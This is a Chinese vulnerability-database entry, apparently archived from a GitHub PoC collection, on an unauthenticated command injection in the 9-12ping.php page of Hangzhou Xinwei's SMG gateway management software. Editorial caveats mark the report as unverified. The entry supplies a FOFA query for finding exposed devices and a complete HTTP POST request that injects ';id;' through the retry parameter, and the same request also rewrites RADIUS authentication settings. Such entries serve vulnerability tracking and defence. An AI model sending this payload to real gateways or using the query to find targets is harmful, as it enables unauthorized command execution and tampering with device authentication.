

# 杭州新威SMG网关管理软件 9-12ping retry命令注入声称

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

## 条目说明

- 对象与具体问题：杭州新威SMG网关管理软件；9-12ping retry命令注入声称
- 版本、配置及部署条件：型号/固件未知，CVE关联需核
- 认证与权限前提：匿名声称，无Cookie示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 端点名ping但POST全是RADIUS设置字段，需核是否载荷来自另一设置页/版本
- enable_radius/enable_auth/shared_secret/save可能改变认证配置，不能当无害ping检查
- 在野已知无出处；返回只有图，需id输出及匹配CVE原始报告

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

杭州新威数字信息-SMG网关管理软件_9-12ping.php-命令执行漏洞，未授权的攻击者可执行任意命令导致服务器被控制。

## 影响版本

SMG网关管理软件

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="text ml10 mr20" && (title="网关管理软件" || title="Gateway Management")

POC/EXP：

```http
POST /en/9-12ping.php HTTP/1.1  
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0  
Content-Length: 202  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Connection: keep-alive  
Content-Type: application/x-www-form-urlencoded  
Upgrade-Insecure-Requests: 1  

enable_radius=on&enable_auth=on&source_ip=your-ip&radius_address=127.0.0.1%3A1813&shared_secret=foobar&radius_address2=&shared_secret2=&timeout=3&retry=';id;'&alive=20&save=Save 

```

> 请求长度说明：原资料 Content-Length 为 202；保留原始标头；其数值未据实际请求体重新计算或验证。




## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
